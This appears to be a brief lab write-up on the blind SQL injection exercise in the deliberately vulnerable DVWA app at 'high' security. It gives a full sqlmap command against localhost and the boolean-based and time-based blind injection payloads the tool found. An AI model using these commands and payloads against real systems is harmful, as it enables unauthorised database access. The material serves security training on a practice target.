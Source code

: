 # Recon 

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/cookie-input.php" --second-url "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=mv6bnmf48jgo5clo0peuuh1md6; security=high" --data="id=1&Submit=Submit" -p id --level=5 --risk=3 --dbms=mysql --batch

```
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 8492=8492-- phBU&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2020 FROM (SELECT(SLEEP(5)))CzIJ)-- aiOC&Submit=Submit
```

... The rest is the same as the others levels.